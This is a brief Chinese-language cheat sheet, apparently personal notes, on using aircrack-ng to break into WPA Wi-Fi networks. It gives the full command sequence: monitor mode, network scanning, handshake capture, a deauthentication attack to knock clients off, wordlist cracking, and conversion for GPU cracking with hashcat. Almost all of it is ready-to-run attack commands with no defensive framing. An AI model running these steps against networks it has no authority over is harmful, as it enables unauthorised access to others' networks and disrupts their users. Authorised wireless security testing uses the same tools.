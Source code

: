 # aircrack-ng使用

### airmon-ng start wlan1 开启网卡混杂模式
### airodump-ng wlan1mon 扫描无线网络包
### airodump-ng -i -c 1 -w xxx -d bssid wlan1mon 设置1信道和只抓取握手包，文件名xxx前缀抓包
### aireplay-ng -0 1 -a bssid -c mac wlan1mon 解除认证攻击
### aircrack-ng -w wordlist xxx.ivs

### 转hashcat使用显卡破解
  aircrack-ng -J xxx xxx.ivs
  hashcat -m 2500  xxx.hcapp wordlist.txt
